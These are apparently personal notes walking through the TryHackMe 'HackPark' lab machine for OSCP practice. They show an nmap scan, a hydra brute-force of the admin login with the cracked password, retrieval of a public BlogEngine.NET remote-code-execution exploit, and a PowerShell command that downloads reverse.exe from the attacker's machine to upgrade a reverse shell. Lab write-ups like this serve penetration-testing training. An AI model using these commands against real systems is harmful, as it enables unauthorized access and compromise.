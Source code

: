 nmap -sV -sC -o nmap 10.10.246.210
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-27 10:36 EST
Nmap scan report for 10.10.246.210
Host is up (0.35s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-12-27T15:36:52+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

port 80 and 3389 are open

 Windows website login form using POST method
<form method="post" action="login.aspx?ReturnURL=%2fadmin%2f" id="Form1">

the steps for to get the hydra command at the back is as follows
go to inspect element > network > edit and send the post request, copy referer:request body:failed message


hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.246.210 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=kcSMO%2FXF1GCTeqt5uRKPoYMbob7ILPmcJ8MRMGNpv2FneCHIfEXPYOSXqtxv7DNoE8I3ocTwXLS9nE%2BFsrLJiHyETHd061sGnCLUvKIZ98Tw51yIvJPBPwCnvZkSPBN1IGUjaSXna2xuK3zLhKzuJMYEMGp%2BJaP2%2FnW3KLtiHdSkJNaf&__EVENTVALIDATION=An1jltDUr%2FrJuqK%2FrWVjD8jVjSf5VMWKvH%2BRo5qQE9Qj4eGYCBTjNSWsFE5%2FEkHkpfIodOJNXbmfoUTYDVGixWMGR8Uh4t4o5X9Rt16ieHoB4SXqj2wNQW3KckOfeclwpBQJbmdFBCPS%2FdzwfeBzvm1jPbMdBiH2IFcI0iE0FX3uIkeq&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

[STATUS] 576.00 tries/min, 576 tries in 00:01h, 14343823 to do in 415:03h, 16 active
[80][http-post-form] host: 10.10.246.210   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found                                                                 
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-27 11:22:32  


once im inside the admin page, we can see that it is running on BlogEngine.NET 3.3.6
a quick search on exploitdb would lead us to the following public exploit that we can use
kali@kali:~/oscptraining/tryhackme/hackpack$ searchsploit -p aspx/webapps/46353.cs
  Exploit: BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution
      URL: https://www.exploit-db.com/exploits/46353
     Path: /usr/share/exploitdb/exploits/aspx/webapps/46353.cs
File Type: HTML document, ASCII text, with CRLF line terminators

kali@kali:~/oscptraining/tryhackme/hackpack$ cp /usr/share/exploitdb/exploits/aspx/webapps/46353.cs .

follow the instructions and we are in!

lets enumerate the machine...


trying upgrade our reverse shell to a full reverseshell
powershell Invoke-WebRequest -Uri http://10.4.24.92:8000/reverse.exe -Outfile reverse.exe




